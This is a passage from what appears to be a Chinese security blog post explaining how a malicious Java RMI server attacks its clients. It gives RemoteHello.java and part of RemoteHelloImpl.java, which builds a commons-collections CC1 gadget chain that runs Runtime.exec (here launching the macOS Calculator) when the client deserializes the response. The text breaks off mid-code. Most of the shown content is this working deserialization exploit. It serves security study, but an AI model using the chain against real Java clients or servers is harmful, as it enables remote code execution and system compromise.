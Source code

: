 流程如下 （来自p神知识星球

![image-20210217203014481](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210217203014481.png)





### 攻击客户端

攻击客户端需要恶意服务器返回 恶意序列化payload

以cc1 攻击链为例子（受攻击方需要是java7 以及存在commons-collections-3.1.jar）



(服务端ubuntu 客户端mac)

服务端 

`RemoteHello.java`

```java
package tmp;

import java.rmi.Remote;
import java.rmi.RemoteException;
public interface RemoteHello extends Remote {
	Object exp() throws RemoteException,Exception;
}
```



`RemoteHelloImpl.java`

```java
package tmp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.rmi.RemoteException;
import java.util.HashMap;
import java.util.Map;

public class RemoteHelloImpl implements RemoteHello {

 	public Object exp() throws Exception {
 		System.out.println("exp");
 		return payload(); //将生成的对象返回 然后传输前进行序列化
 	}

	public static Object payload() throws Exception {
    //以下全为cc1攻击链 
 		Transformer[] transformers = new Transformer[]{
 			new ConstantTransformer(Runtime.class),
			new InvokerTransformer("getMethod", new Class[]
					{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
					new InvokerTransformer("invoke", new Class[]{Object.class,
					Object[].class}, new Object[]{null, new Object[0]}),
 					new InvokerTransformer("exec", new Class[]{String.class},
					new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})};
 		Transformer transformerChain = new ChainedTransformer(transformers);
 		Map map = new HashMap();
 		map.put("value", "lala");
```